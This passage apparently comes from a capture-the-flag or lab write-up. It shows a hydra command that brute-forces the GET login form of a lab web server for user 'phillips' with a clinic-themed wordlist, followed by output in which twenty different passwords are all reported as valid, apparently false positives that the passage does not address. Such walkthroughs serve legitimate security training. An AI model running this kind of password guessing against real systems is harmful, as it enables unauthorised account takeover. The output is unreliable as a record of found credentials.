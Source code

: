 We need to check the behavior of the request, let's submit it to our proxy:


![Pasted image 20250512174314.png](../../../IMAGES/Pasted%20image%2020250512174314.png)
With all this information, we can now craft a hydra command:

```
hydra -l phillips -P clinic.lst 10.10.131.98 http-get-form "/login-get/index.php:user=phillips&pass=^PASS^:F=Login failed! " -t 20

[80][http-get-form] host: 10.10.131.98   login: phillips   password: protected
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Oxytocin
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Research
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Cortisol
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Paracetamol
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Cardiology
[80][http-get-form] host: 10.10.131.98   login: phillips   password: February
[80][http-get-form] host: 10.10.131.98   login: phillips   password: treatment
[80][http-get-form] host: 10.10.131.98   login: phillips   password: hospital
[80][http-get-form] host: 10.10.131.98   login: phillips   password: appointment
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Saturday
[80][http-get-form] host: 10.10.131.98   login: phillips   password: commonly
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Pregnancy
[80][http-get-form] host: 10.10.131.98   login: phillips   password: providing
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Copyright
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Laboratory
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Departments
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Insurance
[80][http-get-form] host: 10.10.131.98   login: phillips   password: Template
[80][http-get-form] host: 10.10.131.98   login: phillips   password: tooplate
```
